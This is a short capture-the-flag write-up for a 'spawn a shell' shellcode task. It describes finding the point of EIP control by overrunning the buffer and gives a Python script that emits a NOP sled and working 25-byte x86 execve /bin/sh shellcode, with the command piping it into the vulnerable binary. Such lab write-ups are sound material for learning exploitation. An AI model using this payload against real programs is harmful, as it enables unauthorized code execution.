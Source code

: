 [www.pwnerrank.com/tasks/linux-shellcode-spawn-a-shell][1]

<h2>Process</h2>
After struggling for a bit using the standard "A"*[size] to determine the size I decided why not just fill the entire buffer with `\xcc` and see how little I needed to get it to stop, effectively telling me where I gain control of $EIP.  

Only one `\xcc` was required! Based on my analysis of the stack by overrunning it with `A` and `\xcc` I had 43 chars of room to play with before things would get cut off.

The shell code was 25 bytes which left me with another 18 maximum for NOPs.  I started with a small amount, 5 NOPs followed by my shell code! This works!!  I tried again without any NOPs and it worked as it should.  My mind just instantly thought to throw in a few NOPs for protection.

<h3>Solution </h3>
Python script to generate payload:

```
#buf="\xcc"*1
nop="\x90"*5
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
print nop+shellcode #buf+nop+shellcode
```

Command to run:

```
(python /tmp/gen ; cat) | ./pwnme

```


  [1]: www.pwnerrank.com/tasks/linux-shellcode-spawn-a-shell
